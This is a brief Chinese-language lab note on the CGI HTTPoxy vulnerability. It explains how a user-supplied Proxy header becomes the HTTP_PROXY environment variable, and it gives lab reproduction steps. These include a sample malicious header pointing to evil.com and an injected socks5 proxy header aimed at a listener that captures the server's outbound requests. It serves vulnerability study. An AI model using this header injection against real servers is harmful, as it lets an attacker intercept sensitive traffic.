


# CGI HTTPoxy漏洞

> 漏洞说明

httpoxy是cgi中的一个环境变量；而服务器和CGI程序之间通信，一般是通过进程的环境变量和管道。

根据 RFC 3875 规定，cgi（fastcgi）要将用户传入的所有 HTTP 头都加上 HTTP_前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的 HTTP_PROXY 值作为 HTTP 代理地址。于是，恶意用户通过提交 Proxy: http://evil.com 这样的 HTTP 头，将使用缺陷类库的网站的代理设置为 http://evil.com，进而窃取数据包中可能存在的敏感信息。

> 前提条件

> 利用工具

> 漏洞复现

搭建靶场环境，访问http://192.168.40.77:8080/index.php

请求包添加代理Proxy: socks5://192.168.40.1:7890/访问可以看到Origin已经变成代理地址

监听192.168.40.1的7890端口即可捕获请求数据包